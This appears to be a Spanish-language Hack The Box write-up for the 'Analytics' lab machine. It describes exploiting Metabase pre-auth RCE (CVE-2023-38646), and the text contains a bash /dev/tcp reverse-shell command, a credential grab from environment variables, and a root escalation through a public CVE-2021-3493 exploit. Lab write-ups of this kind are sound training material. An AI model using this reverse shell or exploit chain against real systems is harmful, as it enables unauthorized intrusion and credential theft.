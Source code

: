 ```yaml
---
layout: single
title: Analytics - Machines - Hack The Box
excerpt: "Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE)."
date: 2023-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-analytics/analytics.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - cve-2023-38646
  - cve-2021-3493
  - rce
  
---
```


![](/assets/images/htb-writeup-analytics/analytics.png)

Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
 -	22 de SSH 
 -	80 de HTTP

![](/assets/images/htb-writeup-analytics/analytics2.png)

Observamos un dominio y un subdominio que debemos agregar a nuestro archivo /etc/hosts.

![](/assets/images/htb-writeup-analytics/analytics3.png)

Agregamos los dominios y subdominios identificados.

 -	Analytics.htb

 -	Data.analytics.htb

![](/assets/images/htb-writeup-analytics/analytics4.png)

Navegamos sobre el sitio web e identificamos un portal de inicio de sesión donde ejecuta Metabase la cual es una herramienta de inteligencia empresarial de código abierto que le permite crear gráficos y paneles utilizando datos de una variedad de bases de datos y fuentes de datos. 

![](/assets/images/htb-writeup-analytics/analytics5.png)

# 2.	Explotación

Buscamos vulnerabilidades asociadas a esta herramienta e identificamos el CVE-2023-38646 el cual permite un RCE.

 -	PoC: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

La siguiente carga útil nos permitirá un RCE, para ello vamos a necesitar identificar el token el cual vamos a encontrar en la ruta /api/session/properties.

También vamos a necesitar codificar en base 64 un rever Shell.

 -	bash -i >&/dev/tcp/<IP>/<PORT> 0>&1

![](/assets/images/htb-writeup-analytics/analytics6.png)

Debemos poner nuestro equipo atacante a la escucha por el puerto del reverse Shell y enviar la solicita a través de BurSuite.

![](/assets/images/htb-writeup-analytics/analytics7.png)

Vamos a obtener un Shell como usuario metabase.

![](/assets/images/htb-writeup-analytics/analytics8.png)

Luego de un buen tiempo, ejecutamos el comando “env” vamos a identificar la contraseña del usuario “metalytics”.

![](/assets/images/htb-writeup-analytics/analytics9.png)

Usamos las credenciales obtenidas para iniciar sesión por SSH.

![](/assets/images/htb-writeup-analytics/analytics10.png)

De esta manera obtenemos nuestra primera flag.

![](/assets/images/htb-writeup-analytics/analytics11.png)

# 3.	Escalada de privilegios

Des pues de un tiempo buscando una forma de escalar privilegios, identificamos el siguiente exploit disponible.

-	Expoit: https://github.com/briskets/CVE-2021-3493
  
Vamos a clonarlo a nuetstra maquina y ejecutamos el siguiente comando para generar nuestro script.

-	gcc exploit.c -o exploit
  
Luego vamos a levantar un servidor en nuestra maquina atacante para descargar el explot a la maquina víctima.

![](/assets/images/htb-writeup-analytics/analytics12.png)

Descargamos nuestro exploit y otorgamos permisos de ejecución.

![](/assets/images/htb-writeup-analytics/analytics13.png)

Ejecutamos nuestro exploit, el cual permitirá elevar privilegios a root. A hora podemos leer nuestra segunda flag.

![](/assets/images/htb-writeup-analytics/analytics14.png)




